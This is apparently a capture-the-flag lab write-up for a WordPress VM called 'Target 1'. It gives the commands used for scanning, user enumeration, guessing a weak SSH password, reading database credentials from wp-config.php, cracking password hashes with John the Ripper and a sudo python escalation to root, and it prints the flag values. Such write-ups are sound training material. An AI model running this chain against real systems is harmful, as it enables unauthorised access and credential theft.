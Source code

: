 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan result for `Target 1` machine reveal the below services and OS details:

Command to run:

```
$ nmap -A 192.168.1.110
```

Screenshot of command output:
![](All-Screenshots/Offensive-Screenshots/1.png)
![](All-Screenshots/Offensive-Screenshots/2.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP   Open SSH
  - Port 80/TCP   Open http
  - Port 111/TCP  Open rpcbind
  - Port 139/TCP  Open netbios-ssn
  - Port 445/TCP  Open netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:
- Target 1
  - Wordpress Enumeration
  - Weak Password
  - Improper SSH Configuration
  - File Permission Access
  - Weakly salted Password Hash
  - User Privilege Escalation

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - `Wordpress Enumeration:` I enumerated users of the Wordpress site.

        The command to run Wordpress enumeration

        ```
        $ wpscan --url http://192.168.1.110/wordpress --enumerate u
        ```

        Screenshot of the output of this command: 

        ![](All-Screenshots/Offensive-Screenshots/3.png)
        ![](All-Screenshots/Offensive-Screenshots/4.png)
        ![](All-Screenshots/Offensive-Screenshots/5.png)

      - From the user enumeration, we found two users such as `michael` and `steven`. 

      - `Weak Password:` We tried to guess the password of user `michael`. After some failed attempts, we had successfully guessed it, as it was very easy password which was actually his name. 

      - `Improper SSH Configuration:` Then I did ssh to the target machine using Michael's credential i.e. user: `michael` and password: `michael`
      
        Command: 
        
        ```
        $ ssh michael@192.168.1.110
        ```

        Screenshot:

        ![](All-Screenshots/Offensive-Screenshots/6.png)

      - Then I looked for the flag1 in different files and found it in `service.html` as a comment below the footer. 

        Command:

        ```
        $ cd /var/www/html
        $ ls -al
        $ less service.html
        ```

        Screenshot: 

        ![](All-Screenshots/Offensive-Screenshots/7.png)
        ![](All-Screenshots/Offensive-Screenshots/8.png)


  - `flag2`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - This was the continuation from the last exploit explained in flag1
      - I used the `find` command to find flag2 and found it in the directory `/var/www`.

        Command to run:  

        ```
        $ find / -iname *flag2*
        $ cd /var/www
        $ ls 
        $ cat flag2.txt
        ```
        
        Screenshot:

        ![](All-Screenshots/Offensive-Screenshots/9.png)

  - `flag3`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - `File Permission Access:` I tried to find MySQL database credentials in the wp-config.php file located in the . I found the username and password which are `root` and `R@v3nSecurity` respectively. Then I accessed the MySQL.

        Command to run:

        ```
        $ cd /var/www/html/wordpress
        $ less wp-config.php
        $ mysql -u root -p
        ```

        Screenshot: 

        ![](All-Screenshots/Offensive-Screenshots/10.png)
        ![](All-Screenshots/Offensive-Screenshots/11.png)
        ![](All-Screenshots/Offensive-Screenshots/12.png)

      - Then I traversed the database contents of Wordpress and found flag3 in the table `wp_posts`.

        Command to run:

        ```
        $ show databases;
        $ use wordpress;
        $ show tables;
        $ select * from wp_posts;
        ```

        Screenshot:

        ![](All-Screenshots/Offensive-Screenshots/13.png)
        ![](All-Screenshots/Offensive-Screenshots/14.png)
        ![](All-Screenshots/Offensive-Screenshots/15.png)
        ![](All-Screenshots/Offensive-Screenshots/16.png)

  - `flag4`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - I found the password hashes in the table named `wp_users`. I copied the user and password hashes into a text file named `wp_hashes.txt`. 

        Command to run:

        ```
        $ select * from wp_users;
        ```

        Screenshot: 

        ![](All-Screenshots/Offensive-Screenshots/17.png)

      - `Brute Force:` Then I used the `John the Ripper` to crack the password hashes. The password hash of user `steven` had been cracked within short time. But Michael's hash was taking very long time to crack. But we had his password already with me from previous activity. So I moved on the next step after I had found Steven's password.

        Command to run:

        ```
        $ john wp_hashes.txt
        ```

        Screenshot:

        ![](All-Screenshots/Offensive-Screenshots/18.png)

      - `Improper SSH Configuration:` Then I ssh'ed to the target machine using the steven's credentials. 

        Command to run:

        ```
        $ ssh steven@192.168.1.110
        ```

      - `Privilege Escalation:` Then I figured out that Steven can run python command using `sudo` command. In order to gain root access on the target machine, I ran the python command as presented below. 

        Command to run:

        ```
        $ sudo -l
        $ sudo python -c 'import os; os.system("/bin/sh")'
        $ whoami
        ```

        Screenshot:

        ![](All-Screenshots/Offensive-Screenshots/19.png)

      - After becoming root access, I searched for the flag4 text file using the `find` command and found it in the directory `/root/`. 

        Command to run:

        ```
        $ find / -iname flag*
        $ cat /root/flag4.txt
        ```

        Screenshot:

        ![](All-Screenshots/Offensive-Screenshots/20.png)
        ![](All-Screenshots/Offensive-Screenshots/21.png)

    